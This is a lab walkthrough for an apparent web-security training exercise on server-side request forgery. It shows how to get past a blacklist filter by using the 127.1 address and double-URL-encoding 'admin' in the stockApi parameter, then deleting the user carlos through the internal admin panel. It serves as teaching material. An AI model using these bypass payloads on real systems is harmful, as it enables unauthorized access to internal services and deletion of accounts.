

# SSRF with blacklist-based input filter

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

Note when you
ping 127.0.0.1 and localhost and 127.1 all are same

### step1

go to stock check feature which fetches data from an internal system and intercept
send to repeater

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
send request respose =>200 ok

stockApi=http%3A%2F%2F127.0.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
send reuest response => 400 bad request => "External stock check blocked for security reasons"

remove _%3A8080_
stockApi=http%3A%2F%2F127.1%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D3
send request resposne => 404 Not found

remove _product%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1_
stockApi=http%3A%2F%2F127.1%2Fadmin
send request response => 400 bad request => "External stock check blocked for security reasons"

### step2

use extenstion burpsuite _hackvertor_
highlight _admin_ send to extenstion _hackvertor_ => _encode_ => _urlencode_all_
stockApi=http%3A%2F%2F127.1%2F<@urlencode_all>admin<@/urlencode_all>

now again _<@urlencode_all>admin<@/urlencode_all>_ send _hackvertor_ => _convert tags_
_<@urlencode_all>admin<@/urlencode_all>_ => _%61%64%6D%69%6E_
stockApi=http%3A%2F%2F127.1%2F%61%64%6D%69%6E

again _%61%64%6D%69%6E_ _hackvertor_ => _encode_ => _urlencode_all_
_%61%64%6D%69%6E_ => _<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>_
stockApi=http%3A%2F%2F127.1%2F<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>

now again _<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>_ send _hackvertor_ => _convert tags_
_%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45_ => _%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45_
stockApi=http%3A%2F%2F127.1%2F%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45
send request response => 200 ok

stockApi=http%3A%2F%2F127.1%2F%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45/delete?username=carlos
send request response => 302 found

lab solved :)
